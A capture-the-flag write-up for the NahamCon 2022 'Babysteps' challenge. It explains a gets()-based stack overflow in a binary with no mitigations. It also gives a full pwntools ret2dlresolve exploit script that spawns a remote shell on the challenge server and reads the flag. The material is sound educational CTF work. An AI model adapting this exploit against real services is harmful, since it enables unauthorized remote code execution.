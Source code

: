 # NahamCon CTF 2022

## Babysteps 

> Become a baby! Take your first steps and jump around with BABY SIMULATOR 9000! 
>
> Author: @JohnHammond#6971
>
> [`babysteps`](babysteps) [`babysteps.c`](babysteps.c)

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _ret2dlresolve_


## Summary

Embryo pwn featuring `gets`.

From `man gets`:

```
BUGS

Never use gets(). Because it is impossible to tell without knowing the data
in advance how many characters gets() will read, and because gets() will
continue to store characters past the end of the buffer, it is extremely
dangerous to use. It has been used to break computer security. Use fgets()
instead.
```

## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No mitigations, basically choose your own adventure.  

> I went with _ret2dlresolve_ because I'm lazy and the code is identical for most `gets` challenges.


### Ghidra Decompile

```c
void ask_baby_name(void)
{
  char local_1c [20];
  
  puts("First, what is your baby name?");
  gets(local_1c);
  return;
}
```

`gets` is the vulnerability and given no constraints there are numerous ways to solve this.

`local_1c` is `0x1c` bytes from the base of the stack frame (right above the return address `main` will _return_ to on `return`).  To exploit just write out `0x1c` bytes of garbage followed by your exploit.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./babysteps', checksec=False)

rop = ROP(binary)
dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31127)
else:
    p = process(binary.path)

payload  = b''
payload += 0x1c * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendlineafter(b'name?\n',payload)
p.interactive()
```

Google _ret2dlresolve_ or read some of my other write ups for details.

Output:

```bash
# ./exploit.py REMOTE=1
[*] Loaded 10 cached gadgets for './babysteps'
[+] Opening connection to challenge.nahamcon.com on port 31127: Done
[*] Switching to interactive mode
$ cat flag.txt
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
```
